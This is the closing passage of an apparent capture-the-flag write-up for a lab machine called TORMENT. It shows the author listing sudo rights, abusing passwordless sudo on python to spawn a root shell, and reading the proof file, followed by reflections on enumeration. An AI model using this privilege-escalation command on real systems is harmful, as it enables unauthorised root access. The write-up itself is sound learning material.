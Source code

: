 There we go, we now have a proper shell.

```bash
qiu@TORMENT:~$ sudo -l
Matching Defaults entries for qiu on TORMENT:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User qiu may run the following commands on TORMENT:
    (ALL) NOPASSWD: /usr/bin/python, /bin/systemctl
```

It seems we are able to run python with sudo. With this we should easily be able to get a shell as root.

```bash
qiu@TORMENT:~$ sudo /usr/bin/python -c 'import pty;pty.spawn("/bin/bash")'
root@TORMENT:/home/qiu# id
uid=0(root) gid=0(root) groups=0(root)
root@TORMENT:/home/qiu#
```

There we go we now have root.

```bash
root@TORMENT:~# cat proof.txt 
Congrutulations on rooting TORMENT. I hope this box has been as fun for you as it has been for me. :-)

Until then, try harder!
```

## Final Thoughts

This truly was an amazing box. It had me interacting with a service I hadn’t before (IRC). It also showed me a new privilege escalation tactic that I hadn’t encountered before. This just goes to show how much I have yet to learn, and how important Enumeration truly is.

